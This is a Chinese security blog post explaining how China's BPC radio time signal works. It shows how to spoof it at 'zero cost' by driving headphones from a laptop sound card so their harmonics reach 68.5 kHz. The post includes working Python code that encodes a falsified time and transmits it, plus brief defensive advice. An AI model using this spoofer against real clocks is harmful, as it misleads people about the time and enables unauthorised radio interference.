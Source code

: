 ```yaml
---
date: 2016-10-25
title: "BPC电波授时信号的“零成本”伪造"
layout: post
author: wzbozz
---
```


> 原载阿里聚安全公众号，现在看措辞略浮夸啊，懒得改了。

工作日，上班路上，看一眼情人节女友刚送的六局电波表。咦，出门明明还早，怎么眼看要迟到！别慌，可能只是你被“黑”了。

什么，你戴iWatch？那可以看看[这篇](https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely.pdf)。

电波钟/表顾名思义就是通过接收电波授时信号实现自动对时的钟表。以“电波表”为关键字在淘宝搜索，可以看到相关产品很多。其中主要是几个日系的手表大厂，如卡西欧、西铁城、精工、东方双狮等，此外国产品牌也有几个，就不一一列举了。我们后面实验中用到的是一台挂钟，由国产品牌康巴丝生产。

授时电波一般由国家负责标准时间的专门机构进行播发。所广播的时间是国家标准时，由多台高精度原子钟组成的守时钟组产生。授时电波采用频率低于100千赫的长波波段，不易被遮挡，因此一个发射站就可以基本覆盖一国国土。中英美日德等国有各自标准的长波授时服务，不仅名称不一，所用的频率和编码也不同，也就是开头提到的所谓六局（日本面积虽小，但有两局）.

我国的长波授时服务BPC，由中科院国家授时中心与某企业合作建立，面向民用。BPC广播站设立在河南商丘，频率为68.5千赫。采用脉宽调制，码率1赫兹。每个编码脉冲宽度为0.1s，0.2s，0.3s或0.4s，分别代表四进制的 0，1，2，3。而这一串四进制的数字是由播发时刻的秒、时、分、星期、日、月、年插入几个校验位组成的，长度为20s，并无任何加密手段。也就是说20秒的信号才可以完整传达当前日期和时间。这一编码方式相比其他各国60秒一帧的方法，对时过程更快。另外需要提醒一下，BPC电波授时编码属于某企业的专利技术，不能私自用于商业盈利。既然是专利，就不妨再公开引用一次，编码示意图如下。

![]({{ site.imageurl }}/2016/10/bpc-format.png)

说了这么多，同学们应该对电波授时和电波钟表也有了大概的了解。下面讲讲如何“黑”的问题。思路很简单：伪造授时电波信号，盖过真正的BPC电波，电波钟也就乖乖听咱的了。

如何产生信号呢，我们采用了一台安捷伦最新款PSG系列信号发生器——开玩笑的，我司怎会有这，只有笔记本电脑。好吧，就用笔记本。是的，就用笔记本！

笔记本电脑就位后，照着专利说明书写一个程序，将日期时间翻译成BPC编码，然后将编码通过电脑自带的音频输出播放出来。为了避免笔记本自身杂散电磁辐射造成干扰，我们利用耳机作为播放设备。为了增强信号强度，我们把耳机粘在钟表背后靠近接收天线的位置，把音量调到最大。编造一个错误的时间，运行程序开始发播信号，人耳可以听见脉冲通断的声音。按下电波钟背后的对时按钮三秒钟，表针暂停，进入对时模式。静待几分钟，电波钟从信号中获取错误的时间，表针快速旋转至指定时间，对时成功！

讲到这里，肯定有同学要说，声卡最高只能输出22千赫的声音，怎么能发出68.5千赫，还是电波信号，你不要骗我！且慢，其实是笔者刚有意漏掉一个关键点现在来讲。电脑所播放的音频信号实际上是有讲究的，我们选择了68.5千赫的5分频，13.7千赫，以此作为载波在上面加载BPC编码。耳机发声就是靠线圈产生变化的磁场推动振膜实现的，因此发出听得见的声音的同时，也在发出听不见的电磁波。当我们把输出音量调至最大，耳机的非线性效应显著起来，频率成分中不仅有基频成分（13.7千赫）还有倍频成分，其中也就包含13.7千赫的5倍频信号68.5千赫，也就是BPC的载波频率。这样也就实现了标题所说的“零成本”。

作为一名合格的白帽，讲了“攻”怎么能不讲“防”？实际上仅仅从BPC的编码上来说，由于其非常简单透明，是很难防止类似攻击行为的。好在现在获取时间信息的手段多种多样，通过移动网络、有线网络、GPS、北斗等都可以获得非常准确的时间，因此采用多个时间来源相互参照，能够大大降低因被攻击造成损失的概率。

最后来段代码：

```python

# -*- coding: utf-8 -*-
"""
Created on Tue Jan 19 15:26:45 2016

@author: zhengbowang
"""
import pyaudio
import struct
import datetime
import math

def dropandfill(l,s):return '0'*(l - len(s[2:])) + s[2:]#用0补位
def time2code(date_time, dt = datetime.timedelta(0)):
'''
将时间转换成BPC编码。
'''
    date_time -= dt
    date = [date_time.day, date_time.month, date_time.year]
    timet = [date_time.hour,date_time.minute,date_time.weekday()+1]
    date[2] = date[2]%100#year
    timet[0] = timet[0]%12#am.pm
    p1 = dropandfill(2,bin(date_time.second/20))#seconds
    p2 = '00'#reserved
    sec1 = (p1+p2)+''.join(map(dropandfill,[4,6,4],map(bin,timet)))
    p31 = str(int(date_time.hour>=12))
    p32 = str((sec1.count('1'))%2)
    p3 = p31 + p32
    sec2 = ''.join(map(dropandfill,[6,4,6],map(bin,date)))
    p41 = str(int(date_time.year%1000>100))
    p42 = str(((sec2.count('1'))%2))
    p4 = p41 + p42
    code2 = sec1 + p3 +sec2 + p4
    bin2four = {'00':'1','01':'2','10':'3','11':'4'}#to base4
    return '0'+''.join([bin2four[code2[2*i:2*i+2]] for i in range(len(code2)/2)])

dt = datetime.timedelta(hours = 1)#fake time shift
samp_rate = 68500
freq = 6850 * 2 #in Hertz
ttime =20 #in Sec
SAMPLE_LEN = samp_rate * ttime # 20 seconds of cosine
value = ampl = 32725
div = samp_rate/freq/2
data = 32725
# 打开声音输出流
p = pyaudio.PyAudio()
stream = p.open(format = 8,
                channels = 1,
                rate = samp_rate,
                output = True)

while True:
    date_time = datetime.datetime.now()+dt
    print date_time
    sec = (date_time.second+1)%20
    code_str = time2code(date_time)
    start = sec * samp_rate
    for i in xrange((start), SAMPLE_LEN):
        #if i % div == 0:value = -value#carrier generate
        value = ampl * int(math.cos(math.pi / float(div) * float(i)))
        pulse = (i - sec * samp_rate)/(samp_rate / 10)
        packed_value = struct.pack('h', int(pulse >= int(code_str[sec]))*value)
        stream.write(packed_value)
        if i % samp_rate == 0 and i != start: 
            sec = sec + 1


```
